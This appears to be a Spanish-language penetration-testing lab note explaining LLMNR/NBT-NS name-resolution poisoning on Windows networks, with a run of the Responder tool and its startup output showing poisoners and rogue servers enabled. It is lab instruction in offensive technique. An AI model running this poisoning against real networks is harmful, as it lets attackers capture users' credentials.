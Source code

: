 Utilizamos la herramineta "Responder":
>https://github.com/lgandx/Responder


Cuando un usuario o un sistema intenta realizar una Resolución de Nombres (NR), la máquina realiza una serie de procedimientos para recuperar la dirección IP de un host a partir de su nombre de host. En equipos Windows, el procedimiento es básicamente el siguiente:

- Se requiere la dirección IP del recurso compartido de archivos del nombre de host.
- Se comprobará el archivo del host local (C:\Windows\System32\Drivers\etc\hosts) en busca de registros compatibles.
- Si no se encuentran registros, el equipo recurre a la caché DNS local, que registra los nombres resueltos recientemente.
- ¿No hay ningún registro DNS local? Se enviará una consulta al servidor DNS configurado.
- Si todo lo demás falla, el equipo emitirá una consulta de multidifusión solicitando la dirección IP del recurso compartido de archivos a otros equipos de la red.

Supongamos que un usuario escribe incorrectamente el nombre de una carpeta compartida: \\mysharefoder\ en lugar de \\mysharedfolder\. En ese caso, todas las resoluciones de nombre fallarán porque el nombre no existe, y la máquina enviará una consulta de multidifusión a todos los dispositivos de la red, incluido el servidor SMB falso. Esto supone un problema porque no se toman medidas para verificar la integridad de las respuestas. Los atacantes pueden aprovechar este mecanismo escuchando dichas consultas y falsificando las respuestas, lo que induce a la víctima a creer que los servidores maliciosos son confiables. Esta confianza se suele utilizar para robar credenciales.

```shell-session
Polika4RM@htb[/htb]$ sudo responder -I ens33

                                         __               
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|              

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0
               
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:                
    LLMNR                      [ON]
    NBT-NS                     [ON]        
    DNS/MDNS                   [ON]   
                                                                                                                                                                                          
[+] Servers:         
    HTTP server                [ON]                                   
    HTTPS server               [ON]
    WPAD proxy                 [OFF]                                  
    Auth proxy                 [OFF]
    SMB server                 [ON]                                   
    Kerberos server            [ON]                                   
    SQL server                 [ON]                                   
    FTP server                 [ON]                                   
    IMAP server                [ON]                                   
    POP3 server                [ON]                                   
    SMTP server                [ON]                                   
    DNS server                 [ON]                                   
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]                                   
                                                                                   
[+] HTTP Options:                                                                  
    Always serving EXE         [OFF]                                               
    Serving EXE                [OFF]                                               
    Serving HTML               [OFF]                                               
```